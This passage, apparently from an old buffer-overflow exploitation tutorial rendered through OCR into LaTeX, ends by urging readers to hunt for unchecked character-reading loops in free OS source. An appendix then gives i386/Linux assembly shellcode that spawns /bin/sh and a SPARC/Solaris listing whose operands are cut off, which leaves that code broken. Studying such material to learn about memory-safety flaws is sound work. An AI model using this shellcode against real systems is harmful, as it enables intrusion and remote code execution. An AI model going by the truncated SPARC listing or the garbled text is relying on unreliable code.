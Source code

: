 \documentclass[10pt]{article}
\begin{document}
{a while loop to read one character at a time into a buffer from stdin or some file until the end of line, end of file, 

or some other delimiter is reached. This type of construct usually uses one of these functions: getc(), fgetc(), or 

getchar(). If there is no explicit checks for overflows in the while loop, such programs are easily exploited. To 

conclude, grep(1) is your friend. The sources for free operating systems and their utilities is readily available. 

This fact becomes quite interesting once you realize that many comercial operating s ystems utilities where 

derived from the same sources as the free ones. Use the source d00d.

\appendix
\appendixpage
\section{Shellcode for Different Operating}

\subsection{Systems/Architectures}


\begin{lstlisting}[caption=i386/Linux]
jmp    0x1f
popl   %esi
movl   %esi,0x8(%esi)
xorl   %eax,%eax
movb   %eax,0x7(%esi)
movl   %eax,0xc(%esi)
movb   $0xb,%al
movl   %esi,%ebx
leal   0x8(%esi),%ecx
leal   0xc(%esi),%edx
int    $0x80
xorl   %ebx,%ebx
movl   %ebx,%eax
inc    %eax
int    $0x80
call   -0x24
.string \"/bin/sh\"
\end{lstlisting}

     

\begin{comment}
SPARC/Solaris

sethi   0xbd89a, %

or      %

sethi   0xbdcda, %

and     %

add     %

xor     %

add     %

std     %


\end{comment}}
\end{document}
